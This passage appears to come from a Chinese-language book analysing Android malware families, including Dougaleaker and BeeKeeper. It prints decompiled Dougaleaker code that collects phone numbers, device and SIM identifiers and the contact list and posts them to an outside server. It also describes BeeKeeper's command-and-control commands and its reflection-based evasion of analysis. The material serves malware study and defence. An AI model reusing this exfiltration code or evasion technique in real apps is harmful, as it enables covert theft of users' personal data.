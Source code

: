 *列表 2-3：Cricketland 数据收集代码在* masteryourgames.amazingalextoolbox *（v12，c4f0）中*

Android 安全团队认为，任何未经用户同意收集用户联系人列表的应用程序都可以被视为间谍软件。未经用户同意收集电话位置或账户信息也是有问题的，并且在 Google 的移动不良软件政策中有所涵盖。由于这些账户信息包括设备上注册的所有账户，恶意软件可以利用这些信息将用户的电子邮件地址与其 LinkedIn 档案、X 账号、Facebook 页面等进行关联。

收集账户信息以建立跨平台用户档案的危险显而易见。在 Android 8.0（Oreo）中，Android 团队移除了在未获得用户同意的情况下悄悄收集这些信息的能力。

#### ***Dougaleaker***

另一个值得注意的间谍网络是 Dougaleaker，它在 2012 年针对日本国民的联系人列表信息。该网络由美国安全公司 McAfee 发现，并在一篇名为“Android 恶意软件承诺视频同时窃取联系人”的博客文章中进行了描述。

日本警方最终逮捕了 Dougaleaker 的作者，并以间谍软件分发罪进行审判，但日本法院判定他们无罪。关于此案件的英文媒体报道较少，但《The Register》发布的文章《5 名东京开发者因‘电影’Android 应用骗局被捕》提供了一些背景。

当用户启动 Dougaleaker 应用时，例如*jp.co.dougastation*（v2, 83fd），间谍软件功能会将其联系人列表信息发送到一个 Web 服务器（列表 2-4）。

```
String v1_0 = jp.co.dougastation.util.PhoneUtil.getPref(this, "ALREADY_GET");
if ((jp.co.dougastation.util.StringUtil.isEmpty(v1_0)) || (!v1_0.equals("true"))) {
  String[] v3_5 = new String[2];
  v3_5[0] = "http://i-hug.net";
  v3_5[1] = "/appli/addressBookRegist";
  String v2_0 = jp.co.dougastation.util.StringUtil.addString(v3_5);
  java.util.ArrayList v0_1 = new java.util.ArrayList();
  v0_1.add(new BasicNameValuePair("telNo", 
    jp.co.dougastation.util.PhoneUtil.getTelNo(this)));
  v0_1.add(new BasicNameValuePair("individualNo", 
    jp.co.dougastation.util.PhoneUtil.getIndividualNo(this)));
  v0_1.add(new BasicNameValuePair("simSerialNo", 
    jp.co.dougastation.util.PhoneUtil.getSimSerialNo(this)));
  v0_1.add(new BasicNameValuePair("appliId", "4"));
  if (4 >= jp.co.dougastation.util.PhoneUtil.getSdkVersion()) {
    v0_1.add(new BasicNameValuePair("addressBook", this.getMailUnder4()));
  } else {
    v0_1.add(new BasicNameValuePair("addressBook", 
      jp.co.dougastation.util.AddressBookUtil.getAddressBookOver4(
        this.getContentResolver())));
  }
  jp.co.dougastation.util.HttpUtil.doPost(v2_0, v0_1);
```

*列表 2-4：Dougaleaker 间谍软件代码在* jp.co.dougastation *(v2, 83fd)中*

Dougaleaker 的间谍软件功能有限且目标狭窄，这表明它的创作者仅有一个目的：绘制所有日本人的社交关系图。由于该应用的安装量非常高，作者们很可能在他们的目标上取得了成功。

#### ***BeeKeeper***

BeeKeeper 是另一个之前未被描述的大规模 SMS 欺诈家族，目标是俄罗斯的 Android 用户。为了获得安装量，恶意软件应用伪装成流行品牌。Android 安全团队将这个家族命名为 BeeKeeper，因为它主要针对俄罗斯 Beeline 移动运营商网络上的手机。

在技术层面，BeeKeeper 有两个有趣的地方。首先，它使用了一种强大的指挥和控制结构：支持十多个命令，命令名如`sendContactList`、`sendSms`、`catchSms`和`openUrl`。服务器控制 BeeKeeper 在设备上执行的每一个动作。

其次，BeeKeeper 使用反射作为一种混淆技术，来隐藏其行为，以防止静态分析。*反射*是 Java 的一项特性，允许开发人员检查、修改或调用程序中的类、对象和方法。反射的使用引入了一种间接性，使得静态应用分析变得困难。特别是，它允许代码通过混淆、编码和加密的字符串引用类和方法。
